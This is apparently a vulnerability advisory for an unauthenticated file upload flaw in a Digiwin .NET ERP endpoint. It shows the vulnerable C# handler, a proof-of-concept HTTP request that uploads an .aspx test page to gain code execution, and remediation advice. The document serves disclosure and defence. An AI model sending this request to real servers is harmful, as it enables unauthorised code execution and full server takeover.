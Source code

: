 ![image-20250307232413015](./assets/image-20250307232413015.png)

![image-20250307232438085](./assets/image-20250307232438085.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

## Vendor Homepage

https://www.digiwin.com/

### Summary:
A critical security vulnerability has been identified in the file upload functionality of the .NET system. This vulnerability allows unauthenticated users to upload arbitrary files, which can lead to remote code execution (RCE) and potentially grant attackers full control over the server.

### Affected Endpoint:
`/Api/FileUploadApi.ashx?method=DoUpload`

### Vulnerability Type:
Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Vulnerable Code:
Below is the vulnerable code snippet responsible for handling file uploads:

```csharp
[RequestCheck(CheckLogin = false, Name = "app文件上传", CheckParams = "username,userid,menucode,key,value,filename,filesize")]
public void DoUpload()
{
  string str1 = this.bImpl.Request("filename");
  long int64 = this.bImpl.Request("filesize").ToInt64();
  string str2 = this.bImpl.Request("value");
  string str3 = this.bImpl.Request("fileNo");
  Hashtable hashtable = new Hashtable();
  hashtable.Add((object) "username", (object) this.user.UserName);
  hashtable.Add((object) "userid", (object) this.user.UserId);
  hashtable.Add((object) "key", (object) this.bImpl.Request("key"));
  hashtable.Add((object) "value", (object) str2);
  hashtable.Add((object) "filename", (object) str1);
  hashtable.Add((object) "filesize", (object) int64);
  hashtable.Add((object) "fileNo", (object) str3);
  hashtable.Add((object) "menucode", (object) this.ModuleId);
  Hashtable fInfos = hashtable;
  Stream inputStream = HttpContext.Current.Request.InputStream;
  byte[] buffer = new byte[inputStream.Length];
  inputStream.Read(buffer, 0, buffer.Length);
  if (!this.Fimpl.Save(buffer, fInfos).success)
    return;
  this.response = this.Fimpl.AddFileInfo(fInfos);
}


public BaseResponse Save(byte[] buffer, Hashtable fInfos)
{
  fInfos[(object) "username"]?.ToString();
  fInfos[(object) "userid"]?.ToString();
  string str1 = fInfos[(object) "menucode"]?.ToString() ?? "";
  fInfos[(object) "key"]?.ToString();
  string str2 = fInfos[(object) "value"]?.ToString() ?? "";
  string tempFileName = this.toTempFileName(fInfos[(object) "filename"]?.ToString() ?? "");
  fInfos[(object) "filesize"]?.ToString();
  string str3 = fInfos[(object) "fileNo"]?.ToString() ?? "";
  int int32 = fInfos[(object) "position"].ToInt32();
  return FileUtil.SaveFile(buffer, (long) int32, 0L, string.Format(Lskj.WebErp.Core.Util.WebConfigUtil.PubModelAccFilePath, (object) str1, (object) str2, (object) str3), tempFileName, this.AppDomain, true);
}
```

### Proof of Concept (PoC):
The following HTTP request demonstrates how an unauthenticated user can exploit this vulnerability to upload a malicious file.

```http
POST /Api/FileUploadApi.ashx?method=DoUpload HTTP/1.1
Host: [TARGET_HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

<% @ Page Language="C#" %>
<% Response.Write("RCE Test"); %>
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
An attacker can exploit this vulnerability to upload a malicious ASP.NET script file (`.aspx`) to the server. This script can then be executed by accessing it via a web browser, leading to remote code execution and allowing the attacker to execute arbitrary commands on the server, potentially leading to full system compromise.

### Recommendation:
1. **Authentication Check**: Ensure that file upload functionality requires proper authentication. The `CheckLogin` attribute should be set to `true`.
2. **File Type Validation**: Implement strict file type validation to ensure only allowed file types can be uploaded.
3. **File Content Validation**: Validate the contents of the uploaded file to prevent the upload of malicious scripts.
4. **File Storage Location**: Store uploaded files outside the web root directory to prevent direct access and execution.
5. **Regular Security Audits**: Conduct regular security audits and code reviews to identify and mitigate potential vulnerabilities.

### Conclusion:
This critical vulnerability should be addressed immediately to prevent potential exploitation. By implementing the recommended security measures, the risk of unauthorized file uploads and remote code execution can be significantly reduced.

### References:
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [Microsoft Secure Coding Guidelines](https://docs.microsoft.com/en-us/dotnet/standard/security/secure-coding-guidelines)